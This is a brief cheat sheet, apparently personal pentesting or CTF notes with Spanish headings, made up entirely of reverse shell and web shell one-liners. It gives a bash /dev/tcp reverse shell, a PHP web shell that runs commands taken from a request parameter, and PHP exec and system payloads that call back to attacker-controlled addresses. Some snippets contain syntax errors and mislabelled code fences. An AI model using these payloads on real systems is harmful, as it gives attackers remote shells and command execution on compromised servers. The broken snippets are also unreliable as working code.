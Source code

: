 ### Oneliner Bash
```css
bash -c "bash -i >& /dev/tcp/10.8.203.6/9001 0>&1"
```


### Oneliner cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

### Oneliner php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.203.6/7890 0>&1'"):
```

php.revershell
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```